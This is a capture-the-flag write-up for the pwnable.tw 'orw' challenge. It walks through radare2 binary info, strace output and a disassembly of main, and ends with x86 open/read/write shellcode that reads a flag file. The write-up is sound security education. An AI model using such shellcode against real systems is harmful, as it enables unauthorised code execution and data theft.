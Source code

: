 # WRITE UP

## Challenge Description

The goal is to get the flag pwning the binary that is running on server. This challenge is worth 100 points.
The challenge is reachble to: `nc chall.pwnable.tw 10001`.

The challenge description on the website says:

```
Only open read write syscall are allowed to use.
```

## Binary Description

### Binary Information

As usual the binary is opened with radare2 and the binary info are dumped.

```
[0x080483d0]> iI
arch     x86
baddr    0x8048000
binsz    6278
bintype  elf
bits     32
canary   true
class    ELF32
compiler GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.2) 5.4.0 20160609
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```

So the binary has the ***executable stack*** but the ***canary*** is enabled.

***NOTE***

The canary is a random byte-string inserted in the stack before the return address, if the return address changes will change the canary too and an abort is raised.
The canary is inserted by libc and checked by the libc.

### Binary system call map

Executes a strace on the target to understand what it does.

```
$ strace ./orw
...
...
...
brk(NULL)                               = -1 ENOSYS (Function not implemented)
mmap2(NULL, 1048576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) =
-1 ENOSYS (Function not implemented)
mmap2(NULL, 2097152, PROT_NONE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_NORESERVE, -1, 0)
= -1 ENOSYS (Function not implemented)
mmap2(NULL, 1048576, PROT_NONE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_NORESERVE, -1, 0)
= -1 ENOSYS (Function not implemented)
mmap2(NULL, 2097152, PROT_NONE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_NORESERVE, -1, 0)
= -1 ENOSYS (Function not implemented)
mmap2(NULL, 1048576, PROT_NONE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_NORESERVE, -1, 0)
= -1 ENOSYS (Function not implemented)
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = -1
ENOSYS (Function not implemented)
mmap2(NULL, 1048576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) =
-1 ENOSYS (Function not implemented)
***write(1, "Give my your shellcode:", 23Give my your shellcode:) = 23***
***read(0,***
```

WAT?! ***Give my your shellcode***...Ok seems it is waiting for a shell-code, before digging into the assembly code try to pass a nop shellcode to it.

```
$ python3 -c 'print("A"*10)' | ./orw
Give my your shellcode:[1]    54154 done           python3 -c 'print("A"*10)' |
       54155 segmentation fault (core dumped)  ./orw
$ dmesg| tail -n 2
[80794.573288] orw[54155]: segfault at 804b000 ip 000000000804b000 sp 00000000ffe9a91c error 14 in libc-2.31.so[f7d0e000+1e5000]
[80794.573299] Code: Bad RIP value.

$ python3 -c 'print("\x90"*10)' | ./orw
Give my your shellcode:%
```

Strange, with `A*10` as input it crashes due to a segfault but giving a nop sleed it does not crash and maybe executes it?

Let's dig in the code.

### Found the vulnerability

As usual dump all the functions of the binary:

```
[0x080483d0]> afl
0x080483d0    1 33           entry0
0x080483a0    1 6            sym.imp.__libc_start_main
0x08048410    4 43           sym.deregister_tm_clones
0x08048440    4 53           sym.register_tm_clones
0x08048480    3 30           sym.__do_global_dtors_aux
0x080484a0    4 43   -> 40   entry.init0
0x08048600    1 2            sym.__libc_csu_fini
0x08048400    1 4            sym.__x86.get_pc_thunk.bx
0x08048604    1 20           sym._fini
0x080484cb    3 125          sym.orw_seccomp
0x080483b0    1 6            sym.imp.prctl
0x08048390    1 6            sym.imp.__stack_chk_fail
0x080485a0    4 93           sym.__libc_csu_init
0x08048548    1 81           main
0x08048380    1 6            sym.imp.printf
0x08048370    1 6            sym.imp.read
0x08048330    3 35           sym.__libc_csu_init
```

Now we can disassemble the ```main``` function, because we need to understand what it does with the read buffer.

```
[0x080483d0]> pdf @ main
            ; DATA XREF from entry0 @ 0x80483e7
            ┌ 81: int main (char **argv);
            │           ; var int32_t var_4h @ ebp-0x4
            │           ; arg char **argv @ esp+0x24
            │           0x08048548      8d4c2404       lea ecx, [argv]
            │           0x0804854c      83e4f0         and esp, 0xfffffff0
            │           0x0804854f      ff71fc         push dword [ecx - 4]
            │           0x08048552      55             push ebp
            │           0x08048553      89e5           mov ebp, esp
            │           0x08048555      51             push ecx
            │           0x08048556      83ec04         sub esp, 4
            │           0x08048559      e86dffffff     call sym.orw_seccomp
            │           0x0804855e      83ec0c         sub esp, 0xc
            │           0x08048561      68a0860408     push str.Give_my_your_shellcode: ; 0x80486a0 ; "Give my your shellcode:" ; const char *format
            │           0x08048566      e815feffff     call sym.imp.printf ; int printf(const char *format)
            │           0x0804856b      83c410         add esp, 0x10
            │           0x0804856e      83ec04         sub esp, 4
            │           0x08048571      68c8000000     push 0xc8 ; 200
            │           0x08048576      6860a00408     push obj.shellcode ; 0x804a060
            │           0x0804857b      6a00           push 0 ; int fildes
            │           0x0804857d      e8eefdffff     call sym.imp.read ; ssize_t read(int fildes, void *buf, size_t nbyte)
            │           0x08048582      83c410         add esp, 0x10
            │           0x08048585      b860a00408     mov eax, obj.shellcode ; 0x804a060
            │           0x0804858a      ffd0           call eax ; jump on the shellcode read() on offset 0x0804857d
            │           0x0804858c      b800000000     mov eax, 0
            │           0x08048591      8b4dfc         mov ecx, dword [var_4h]
            │           0x08048594      c9             leave
            │           0x08048595      8d61fc         lea esp, [ecx - 4]
            └           0x08048598      c3             ret
```

Seriously? It needs an explaination?

----------------------------------------------------------------------------------------------------------------------------
***NOTE***

On x86 architecture the standard ABI is to pass the arguments through the stack. Indeed:

1. `0x08048571` - push the third argument of the read() on the stack.
2. `0x08048576` - push the buffer address.
3. `0x0804857b` - push the file descriptor.

----------------------------------------------------------------------------------------------------------------------------

At the end, here there is no a vulnerability but a ***feature***, indeed it is possible to pass a shellcode and executes it with the instruction `call eax`.
Finally we just need a shellcode.

### Shellcode

The challenge description let me think that a kind sandbox with seccomp is configured on this binary in order to deny some system calls.
Just to be faster a open/read/write shellcode is used.

```
open:
  xor eax, eax
  xor ecx, ecx
  push eax
  push 0x67616c66
  push 0x2f2f7772
  push 0x6f2f2f65
  push 0x6d6f682f
  mov al, 0x05
  mov ebx, esp
  int 0x80

read:
  xchg eax, ebx
  xchg eax, ecx
  mov al, 0x03
  mov edx, 0x30
  int 0x80

write:
  mov bl, 1
  mov eax, 0x4
  int 0x80
```
